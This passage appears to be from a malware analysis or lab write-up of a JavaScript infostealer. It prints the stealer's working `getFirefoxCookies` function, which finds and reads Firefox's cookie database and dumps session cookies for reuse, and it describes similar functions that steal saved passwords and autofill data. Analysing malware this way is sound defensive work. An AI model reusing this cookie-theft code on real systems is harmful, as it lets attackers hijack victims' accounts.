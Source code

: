                     database.each('SELECT * from cookies', async function (err, row) { 



There's a lot of code to decrypt these cookies, and they are returned.

`getFirefoxCookies` uses the `where /r . cookies.sqlite` command to find
the file (Task 12):



    async function getFirefoxCookies(path) {
        const cookies = [];
        if(existsSync(path)) {
            try {
                const cookiesFile = execSync('where /r . cookies.sqlite', { cwd: path })?.toString();

                if(!cookiesFile) return;
                if(!existsSync(join(cookiesFile?.trim()))) return;
                const result = await new Promise((res, rej) => {
                    const database = new Database(cookiesFile?.trim())
                    if(!database) return;
        
                    database.each('SELECT * FROM moz_cookies', async function(err, row) {
                        if(!row?.value) return;
                        if(cookies?.find((c) => c?.browser === 'Firefox')) {
                            cookies?.find((c) => c?.browser === 'Firefox')?.list?.push(`${row?.host}\t${row?.expiry === 0 ? 'FALSE' : 'TRUE'}\t${row?.path}\t${row?.host?.startsWith('.') ? 'FALSE' : 'TRUE'}\t${row?.expiry}\t${row?.name}\t${row?.value}`);
                        } else {
                            cookies?.push({ browser: 'Firefox', list: [`${row?.host}\t${row?.expiry === 0 ? 'FALSE' : 'TRUE'}\t${row?.path}\t${row?.host?.startsWith('.') ? 'FALSE' : 'TRUE'}\t${row?.expiry}\t${row?.name}\t${row?.value}`]});
                        };
                    }, function () {
                        res(cookies);
                        database?.close();
                    });
                });

                return result;
            } catch(e) {
                console.log(e)
            };
        };
    };



It collects them from the DB and returns them.

#### Autofills and Passwords

The `getBrowserAutofills` and `getBrowserPasswords` are similar. They
each look for a database and open it up, sending back the results.
Interestingly, neither of these try to check in Firefox, only the other
browsers (which are all Chromium-based).

